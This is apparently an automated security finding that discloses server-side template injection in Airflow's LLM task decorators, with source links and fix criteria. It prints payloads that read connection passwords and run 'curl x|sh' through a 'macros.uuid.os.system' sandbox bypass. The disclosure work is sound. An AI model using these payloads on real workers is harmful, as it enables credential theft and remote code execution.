

# LLM TaskFlow decorators evaluate the runtime prompt and arguments as Jinja templates

| Field | Value |
|---|---|
| ID | `find_01DHBKDY2UXsCgfKm97kb4Wq` |
| Severity | **Critical** |
| Status | open |
| CWE | CWE-1336 — Server-side template injection |
| Created | 2026-10-27T21:16:49.185287Z |
| Claude Security | https://claude.ai/security/findings/find_01DHBKDY2UXsCgfKm97kb4Wq |

## Description

Anyone who can put text into data that a Dag feeds to an LLM decorator can read the worker's connections and variables and run OS commands on the worker. No Airflow account is needed, but the Dag must pass that text into the prompt or arguments. The decorators such as `@task.llm` and `@task.agent` assign the callable's return value to `self.prompt`, then call `render_template_fields`, which evaluates it as Jinja.

1. **attacker** writes template syntax into text an external system holds. The payload is something like `{{ conn.aws_default.password }}` or `{{ macros.uuid.os.system('curl x|sh') }}`, placed in a support ticket, review, document or API response that the Dag later processes. ([`providers/common/ai/src/airflow/providers/common/ai/example_dags/example_llm_analysis_pipeline.py:43-82`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/example_dags/example_llm_analysis_pipeline.py#L43-L82))
2. **Dag callable** puts the attacker's text into the returned prompt. The provider's own example fans tickets out with `analyze_ticket.expand(ticket=tickets)` and returns `f"Analyze this support ticket:\n\n{ticket}"`. ([`providers/common/ai/src/airflow/providers/common/ai/example_dags/example_llm_analysis_pipeline.py:43-82`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/example_dags/example_llm_analysis_pipeline.py#L43-L82))
3. **the decorator's `execute`** stores the returned string in `self.prompt` and calls `render_template_fields(context)`. The same call also re-renders `op_args` and `op_kwargs`, which the task runner already resolved, so argument strings are evaluated as Jinja even if they never reach the prompt. ([`providers/common/ai/src/airflow/providers/common/ai/decorators/llm.py:89-104`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm.py#L89-L104))
4. **`render_template_fields`** treats `prompt` as a template field. `prompt` is listed in the `template_fields` of `LLMOperator` and `AgentOperator`, so the string is rendered rather than used verbatim. ([`providers/common/ai/src/airflow/providers/common/ai/operators/llm.py:231-239`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/operators/llm.py#L231-L239))
5. **`Templater.render_template`** compiles the string with `jinja_env.from_string` and renders it with the full task context. Any `{{ }}` or `` in the attacker's text therefore runs as a template. ([`task-sdk/src/airflow/sdk/definitions/_internal/templater.py:255-260`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/task-sdk/src/airflow/sdk/definitions/_internal/templater.py#L255-L260))
6. **the injected template** reads secrets through `conn` and `var` in the task context. The context holds `conn`, `var` and `macros`, and the Execution API authorizes any key, so any connection or variable can be read. ([`task-sdk/src/airflow/sdk/execution_time/task_runner.py:355-363`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/task-sdk/src/airflow/sdk/execution_time/task_runner.py#L355-L363))
7. **the injected template** runs OS commands on the worker through `macros.uuid.os.system(...)`. The macros module imports the whole `uuid` module, which exposes `os` as a public attribute, and the default sandbox blocks only dunder and function-internal names. ([`task-sdk/src/airflow/sdk/execution_time/macros.py:21-23`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/task-sdk/src/airflow/sdk/execution_time/macros.py#L21-L23))

## Assessment

The attacker needs no Airflow account and no victim action. They only need to get text into a source the Dag reads, such as a support ticket, review, article, document, upstream API response or upstream XCom. The Dag must route that text into one of the decorators `@task.llm`, `@task.agent`, `@task.llm_sql`, `@task.llm_branch`, `@task.llm_file_analysis` or `@task.llm_schema_compare`. The provider's documented examples do exactly this, though it is a deployment condition. A second way in is through the arguments: `op_args` and `op_kwargs` come from XCom, `expand()` or `dag_run.conf` and are rendered again, even if they never reach the prompt. The OS command route assumes jinja2 3.1.6. With `render_template_as_native_obj=True` there is no sandbox at all.

Impact: The attacker can read any connection password or extra and any variable. They can put these in the prompt sent to the model provider, in XCom or in logs. They can also run arbitrary OS commands as the worker user, even inside the default sandbox, so the task and the worker are fully compromised.

Subsequent-system impact: Connections hold credentials for external databases, cloud accounts and SSH hosts. The injected template can disclose them, or use them in place through `conn.<id>.get_hook()` methods such as `DbApiHook.run`. The attacker can then read and modify data on those systems with the stored credentials.

## Recommendation

(1) The six decorators assign the callable's run-time return value to `self.prompt` and then call `render_template_fields`. A data-derived string is compiled and run as Jinja with the task context (connections, variables, `macros` stdlib modules).

Fix criteria: The value the callable returns reaches the operator verbatim and is never compiled by Jinja, as `@task.llm_batch` already guarantees for `requests`. A decorated function returning `"x {{ 7*7 }} {{ conn.c.password }}"` sends that literal text to the model. `{{ macros.uuid.os.system('touch /tmp/p') }}` creates no file.

(2) The same `render_template_fields` call in `execute` re-renders `op_args` and `op_kwargs`. The task runner already rendered and resolved these from XCom, `expand()` or `dag_run.conf`, so runtime argument data is evaluated as template source a second time with a fresh `seen_oids`.

Fix criteria: Template fields already rendered by the task runner are not rendered again in `execute`. Only author-written operator fields are rendered, and only once. With an upstream XCom `"{{ var.value.secret }}"` passed through `.expand(ticket=...)`, the callable argument and the stored rendered fields contain the literal braces.

(3) The decorator documentation does not say which values are templated. The official examples interpolate untrusted ticket text into the returned prompt.

Fix criteria: The decorator docs state that the return value is not templated. Any author-facing templating of the prompt is an explicit opt-in, documented as unsafe for untrusted text.

## Evidence

**https://github.com/cx-benchmark/airflow**

- [`providers/common/ai/src/airflow/providers/common/ai/decorators/llm.py:89-104`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm.py#L89-L104)
- [`providers/common/ai/src/airflow/providers/common/ai/decorators/agent.py:87-102`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/agent.py#L87-L102)
- [`providers/common/ai/src/airflow/providers/common/ai/decorators/llm_sql.py:87-105`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm_sql.py#L87-L105)
- [`providers/common/ai/src/airflow/providers/common/ai/decorators/llm_branch.py:88-103`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm_branch.py#L88-L103)
- [`providers/common/ai/src/airflow/providers/common/ai/decorators/llm_file_analysis.py:78-94`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm_file_analysis.py#L78-L94)
- [`providers/common/ai/src/airflow/providers/common/ai/decorators/llm_schema_compare.py:88-103`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm_schema_compare.py#L88-L103)
- [`providers/common/ai/src/airflow/providers/common/ai/operators/llm.py:231-239`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/operators/llm.py#L231-L239)
- [`task-sdk/src/airflow/sdk/definitions/_internal/templater.py:255-260`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/task-sdk/src/airflow/sdk/definitions/_internal/templater.py#L255-L260)
- [`task-sdk/src/airflow/sdk/execution_time/task_runner.py:355-363`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/task-sdk/src/airflow/sdk/execution_time/task_runner.py#L355-L363)
- [`task-sdk/src/airflow/sdk/execution_time/macros.py:21-23`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/task-sdk/src/airflow/sdk/execution_time/macros.py#L21-L23)
- [`providers/common/ai/src/airflow/providers/common/ai/example_dags/example_llm_analysis_pipeline.py:43-82`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/example_dags/example_llm_analysis_pipeline.py#L43-L82)
- [`providers/common/ai/src/airflow/providers/common/ai/decorators/llm_batch.py:59-76`](https://github.com/cx-benchmark/airflow/blob/a462d683469bb9f55646b0515ef84c41e16650fb/providers/common/ai/src/airflow/providers/common/ai/decorators/llm_batch.py#L59-L76)

